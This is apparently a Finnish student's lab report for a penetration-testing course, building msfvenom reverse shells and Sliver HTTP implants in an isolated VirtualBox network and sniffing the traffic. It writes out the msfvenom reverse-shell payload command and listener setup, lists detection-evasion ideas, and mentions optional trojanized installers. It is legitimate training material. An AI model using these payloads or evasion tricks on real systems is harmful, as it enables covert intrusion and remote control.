# h6 Koita simpukoita
## tehtävät: https://terokarvinen.com/tunkeutumistestaus/#h6-koita-simpukoita

>Mitä kirjainta pitää painaa? Missä on "any key"? Nyt joudut itse hakemaan ohjeita verkosta työkalujen käyttöön, mikä tekee monesta kohdasta haastavamman.

>Mikään tässä harjoituksessa tehty tai käytetty ohjelma ei saa olla itsestään leviävä (ei virus, ei mato).

>Useimmat tehtävät eivät edellytä haittaohjelman binäärin liittämistä raporttiin. Mikäli laitat binäärin verkkoon, pakkaa se salakirjoitettuun zip-pakettiin ja laita salasanaksi yleisen käytännön mukaan "infected". Latauslinkin yhteydessä on oltava selkeä varoitus siitä, että kyseessä on haittaohjelma (malware), jota ei tule ajaa tuotantokoneilla. Salasanan voit halutessasi kertoa varoitusten yhteydessä.

>a) Venom. Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Setup:

kali linux vm 192.168.56.101 (tähän koneeseen otetaan yhteys)

metasploitable linux vm 192.168.56.102 (avataan reverse shell tähän koneeseen)

dhcp server (virtalboxin oma) ip osoite ei tiedossa/ei selvitetty, not in scope

Molemmat koneet ovat virtualboxin suljetussa verkossa:



Ping ulkoverkkoon ei onnistu:



Kysyin tekoäly google geminiltä miten tehdään binääri:



Eli siis komennolla "msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f elf > shell.elf"

msfvenom --help komennon mukaan:
-p flag valitsee payloadin

msfvenom --list payloads komennolla saa kaikki mahdolliset payloadit, jota voi tehdä.

Tekoälyn mukaan:
LHOST eli kalin osoite verkossa, kertoo mihin otetaan yhteys
LPORT eli kalin portti verkossa

Sitten tehdään payload:



Käynnistetään nginx ja siirretään ladattava payload /var/www/html kansioon:



Ladataan payload:



Avataan portti kalista:



nc -h komennon mukaan:
-l listen mode, for inbound connects
-p local port number

Ajetaan binääri:



En tiedä miksi ei toimi, yritetään ajaa binääri suoraan kalissa. Eli ei ajetakaan binääriä toisessa vm koska se ei toiminut.



Sieltä tuli yhteys:



Eli siis oikeesti tää binääri pitäis lähettää siihen koneeseen, johon halutaan suorittaa hyökkäys. Mutta koska en saanut toimimaan toisessa vm tein sen saman vm sisällä.

>b) Snif venom! Tarkastele ja analysoi msfvenomin muodostamaa reverse shell -yhteyttä. Käytä snifferiä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Ajoin ls komennon joka näkyy paketissa:





Tästä tunnistaa helposti, että jonkinlainen shell yhteys on päällä.

Lisäksi paketteja analysoidessa näkee että portti 4444 on server ja portti 55092 on client. Esim. ls komento lähetetään serveristä joka on reverse shellille tyypillistä.

Lisäksi yleensä jonkinlainen tunnistautuminen on bind shellissä, mutta kuten paketeista näkee tässä ei ole mitään sellaista:



Yhteyden tunnistamista voisi vaikeuttaa näillä keinoilla:
- salattu yhteys
- payload tallennetaan ja ajetaan ram muistista
- yritetään naamioida yhteys ssh yhteydeksi esim. lähetetään ssh yhteyteen tyypillisiä paketteja

>c) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Asennetaan sliver:

sliverin (https://sliver.sh/) githubin mukaan )https://github.com/BishopFox/sliver) sliverin voi asentaa näin:

Linux One Liner

curl https://sliver.sh/install|sudo bash and then run sliver

Päästään sliveriin komennolla sliver

Jos komento ei toimi, pitää käynnistää sliver: sudo service sliver start. Minulla ei toiminut uudelleen käynnistämisen jälkeen ja päättelin itse että joku service tässä varmaankin on.

Sen jälkeen kysyin tekoäly geminiltä mitä pitää tehdä:



Käynnistetään sliver ja http listener:



Portti 80 varattu, katsotaan mikä tämän varauksen aiheuttaa:



En tiedä mikä tämä on, käytetään vaan toista porttia. Tekoälyn mukaan voidaan käyttää --lport 8080



Tämä komento aiemmin toimi, mutta tein uudelleen, ei enää toiminut uudestaan. Siitä huolimatta vaikka käynnistin koneen uudelleen Tarkistin, tämäkin portti sliverin varaama.



Yritetään toista porttia:



Mennään seuraavaan vaiheeseen, katsotaan mitä tekoäly on sanonut:



Kysyin tekoälyltä että pitäisi saada linux binääri niin ajoin tämän komennon:



sitten takaisin toiseen sliverin ikkunaan:



Katsotaan tekoälyn kertomalla jobs komennolla onko kuuntelujuttu enää päällä:



Eli 3 job. Tuolla näyttää olevan ne muutkin portit johon en saanut porttia bindattua, ilmeisesti ne olivat jo bindattu.

Ajetaan tiedosto:



Ja sieltä saatiin sessio:



Mennään eteenpäin, katsotaan taas tekoälyltä:



ls komento ei toiminut, info komento toimi:



Eli siis client on yhdistetty sliveriin, pitäisi vain tietää oikeat komennot jos haluaa tehdä jotakin yhdistetyillä koneilla.

>d) Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?



En tiedä mistä voisi tunnistaa, mutta sliver käyttää salaamatonta HTTP yhteyttä. Tuo 204 no content toistuu aika paljon.

>e) Sliverillä voit muuttaa yhteyden ominaisuuksia. Kokeile ja näytä esimerkki. Muista todeta testein, että muutokset toimivat.

Kysyin tekoälyltä:





Kokeilin tota --user-agent hommaa mutta se ei toiminut. Tekoäly antaa välillä roskatietoa joka ei edes pidä paikkaansa.

Kokeillaan tätä 2. vaihetta.



Tekoäly ei tässä osannut auttaa. Kokeillaan jotakin muuta.

generate --help komennon mukaan:
  -t, --timeout int                            grpc timeout in seconds (default 60)

Mutta tää varmaankin viittaa siihen mikä on aikarajoitus siinä, kuinka kauan aikaa yritetään käyttää siihen että tietokone saa yhteyden...

Onpas vaikea tehtävä, tähän tehtävänkohtaan kulunut paljon aikaa, apua olisi kiva saada tämän tekemiseen. Jätän tämän nyt tähän, en tiedä miten yhteyden ominaisuuksia voi muokata.

>f) Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista.

Näytin ylempänä miten saa info komennolla tietoja tietokoneesta. Voin vaikkapa tämän ruutukaappausjutun näyttää:

Tekoäly kertoo:



screenshot komento ei toiminut.

Katsotaan help komennolla komennot jota voisi ajaa:



Okei, eli siis mun pitää mennä use komennolla aktiiviseen sessioon.



Noniin ja nyt screenshot:



Ei toiminut, ohjelma kaatui:



Mutta kuitenkin, tällä komennolla voi screenshottaa ja kaikkea muutakin voi tehdä tällä. Varmaankin kaikenlaista samaa mitä metasploitissa.

### Lähteet:

https://terokarvinen.com/tunkeutumistestaus/#h6-koita-simpukoita

https://sliver.sh/

https://github.com/BishopFox/sliver

https://gemini.google.com/share/e015e4830e4e

>g) Vapaaehtoinen: Kokeile Sliver-binääriä Windowsissa.

>h) Vapaaehtoinen: Tee Windows-asennusohjelma, joka asentaa jonkin tavallisen ohjelman ja sen yhteydessä Sliver-haitakkeen.

>i) Vapaaehtoinen: Kokeile Veil.

>j) Vapaaehtoinen: Kokeile ScareCrow.

>k) Vapaaehtoinen: Tee PoshC2-työkalulla haittaohjelma, joka soittaa kotiin.

>l) Vapaaehtoinen: Tee Mythic-työkalulla haittaohjelma, joka soittaa kotiin.

>m) Vapaaehtoinen: Asenna Windows-virtuaalikone ja tee kotiin soittava haittaohjelma siihen. Itse tykkään Linuxista ja käytän paljon sitä, tässä hieman vaihtelua. Windows-käyttäjät ovat myös usein tottuneet (paketinhallinnan puutteessa) lataamaan ohjelmia weppisivuilta.